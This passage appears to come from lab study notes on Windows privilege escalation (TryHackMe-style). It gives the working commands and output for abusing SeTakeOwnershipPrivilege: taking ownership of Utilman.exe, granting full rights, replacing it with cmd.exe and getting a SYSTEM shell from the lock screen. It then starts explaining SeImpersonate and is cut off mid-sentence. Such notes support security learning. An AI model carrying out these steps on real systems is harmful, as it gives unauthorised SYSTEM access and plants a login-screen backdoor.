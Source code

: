 \============================= ======================================== ========

SeTakeOwnershipPrivilege Take ownership of files or other objects Disabled

SeChangeNotifyPrivilege Bypass traverse checking Enabled

SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

**3. Take ownership of utilman.**

takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership"

**4. Assign owner account full privileges on file.**

icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F

processed file: Utilman.exe

Successfully processed 1 files; Failed processing 0 files

**5. Replace utilman.exe with copy of cmd.exe.**

cd c:\Windows\System32\\

copy utilman.exe %temp%

1 file(s) copied.

copy cmd.exe utilman.exe

Overwrite Utilman.exe (Yes/No/All): yes

1 file(s) copied.

**6. Trigger utilman by locking screen.**

* Click on "Ease of Access" button.
* Runs cmd.exe with SYSTEM privileges.

The system cannot find message text for message number 0x2350 in the message file for Application.

(c) 2018 Microsoft Corporation. All rights reserved.

Not enough memory resources are available to process this command.

C:\Windows\system32>whoami

nt authority\system

### **SeImpersonate / SeAssignPrimaryToken Privileges** <a href="#id-1rwoll5pby5a" id="id-1rwoll5pby5a"></a>

* Allow a process to impersonate users and act on their behalf.
  * E.g. spawn a process or thread under the security context of another user.

#### **FTP Use Case** <a href="#csseib7nfat7" id="csseib7nfat7"></a>

1. FTP service running with user "ftp".
2. User "Ann" logs onto the FTP server to access their files.
3. FTP service tries to access the files using its access token rather than Ann's
